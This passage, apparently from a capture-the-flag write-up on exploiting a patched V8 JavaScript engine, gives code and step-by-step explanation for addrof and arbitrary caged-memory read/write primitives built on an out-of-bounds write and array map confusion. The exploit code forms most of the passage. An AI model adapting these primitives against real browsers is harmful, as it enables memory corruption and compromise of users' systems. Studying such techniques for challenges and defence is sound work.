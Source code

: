 We can now craft our `addrof` function:

```js
const EMPTY_PROPERTIES = 0x7bdn;
const PACKED_DOUBLE_ELEMENTS_MAP = 0x4b651n;

const addrof = (obj) => {
  // (1)
  const victim = [{}, 1.2];
  const oob = [1.1];

  // (2)
  victim[0] = obj;

  // (3)
  oob.set([itof((EMPTY_PROPERTIES << 32n) | PACKED_DOUBLE_ELEMENTS_MAP)], -3);
  return ftoi(victim[0]) & 0xffffffffn;
};
```

1. First, declare two arrays. The first (`victim`) is of type `PACKED_ELEMENTS`, and will contain the addresses of the passed objects. The second is used to perform an out-of-bounds write and must be of type `PACKED_DOUBLE_ELEMENTS` (due to checks on the patch).
1. Then, write `obj` (the object we want to get the address of) to one of the `victim` array slots (e.g. the first).
1. Next, the bug introduced by the patch is used to overwrite the map of `victim` to `PACKED_DOUBLE_ELEMENTS`. V8 will now be convinced that `victim` is an array of floats, and this will allow us to read the address of objects stored inside it (such as `obj`)
1. Finally, return the first element from `victim`. Note that this will return a float (8 bytes), whereas pointers in v8 are compressed, hence we only keep the lower part.

Next, we need to craft primitives to read/write from/to (caged) memory. This can be done by overwriting the backing pointer of a victim array with the address (minus 8 due to the header size of array backing structure) of the address we want to read/write from/to. The following code implements these two primitives:

```js
const arb_read = (addr) => {
  const victim = [{}, 1.2];
  const oob = [1.1];
  oob.set(
    [
      itof((EMPTY_PROPERTIES << 32n) | PACKED_DOUBLE_ELEMENTS_MAP),
      itof(((BigInt(victim.length) * 2n) << 32n) | (addr - 8n)),
    ],
    -3
  );
  return ftoi(victim[0]);
};

const arb_write = (addr, data) => {
  const victim = [{}, 1.2];
  const oob = [1.1];
  oob.set(
    [
      itof((EMPTY_PROPERTIES << 32n) | PACKED_DOUBLE_ELEMENTS_MAP),
      itof(((BigInt(victim.length) * 2n) << 32n) | (addr - 8n)),
    ],
    -3
  );
  victim[0] = itof(data);
};
```
